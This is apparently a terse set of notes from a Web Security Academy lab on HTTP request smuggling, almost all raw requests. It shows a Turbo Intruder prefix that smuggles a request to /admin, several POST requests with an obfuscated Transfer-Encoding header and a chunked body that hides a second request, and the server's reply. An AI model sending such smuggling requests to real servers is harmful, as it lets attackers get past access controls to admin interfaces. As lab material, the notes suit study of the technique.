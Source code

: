 #### This will prefix the victim's request. Edit it to achieve the desired effect.
```
<code in turbo intruder>


prefix = '''GET /admin HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1'''
```
---
3 requests..
```
POST / HTTP/1.1
Host: ac7e1fbc1e20b9b3c08c808e003b0009.web-security-academy.net
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 13
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_2) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36
tRANSFER-ENCODING: chunked

3
x=y
0
```
---
POST / HTTP/1.1
Host: ac7e1fbc1e20b9b3c08c808e003b0009.web-security-academy.net
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-length: 12
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_2) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36
tRANSFER-ENCODING: chunked
3
x=y
5f
GET /admin HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15
x=1
0
---
POST / HTTP/1.1
Host: ac7e1fbc1e20b9b3c08c808e003b0009.web-security-academy.net
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 13
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_2) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36
tRANSFER-ENCODING: chunked
3
x=y
0
---
#### the response:
`                   </header>
                    Admin interface only available to local users
                </div>`
                
---